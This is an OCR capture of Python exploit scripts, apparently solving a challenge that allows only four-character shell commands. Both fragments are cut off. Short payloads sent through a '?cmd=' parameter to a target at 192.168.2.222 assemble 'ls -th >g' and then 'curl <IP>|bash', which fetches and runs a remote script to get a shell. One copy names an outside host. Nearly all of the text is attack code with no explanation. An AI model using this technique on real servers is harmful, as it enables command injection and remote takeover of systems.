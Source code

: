 ```
    '*v>x',

    # generate "curl xx.xx.xx.xx|bash"
    '>sh',
    '>ba\\',
    '>\|\\',
    '>4x\\',
    '>0.\\',
    '>2x\\',
    '>7.\\',
    '>5\\',
    '>3.\\',
    '>1x\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    # got shell
    'sh x', 
    'sh g', 
]


r = requests.get('http://192.168.2.222:8086/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://192.168.2.222:8086/?cmd=' + quote(i) )
    print i
    sleep(0.1)
```

```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v" 

    '>sl',
    '>ht-',
    '>g\>',
    '>dir',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl xx.xx.xx.xx|bash"  167.160.189.2
    '>sh',
    '>ba\\',
    '>\|\\',
    '>2\\',
    '>9.\\',
    '>18\\',
    '>0.\\',
    '>6\\',
    '>1\\',
    '>7.\\',
    '>16\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',
```